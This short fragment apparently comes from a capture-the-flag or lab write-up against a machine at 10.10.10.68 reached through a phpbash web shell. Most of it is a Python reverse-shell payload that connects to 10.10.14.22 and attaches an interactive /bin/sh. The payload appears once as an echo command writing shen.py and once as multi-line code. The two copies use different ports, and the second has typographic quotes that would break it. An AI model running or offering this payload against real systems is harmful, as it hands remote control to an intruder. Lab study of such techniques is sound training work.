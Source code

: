 http://10.10.10.68/dev/phpbash.php




echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.22\",3308));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > shen.py

import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((“10.10.14.22”,1338));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);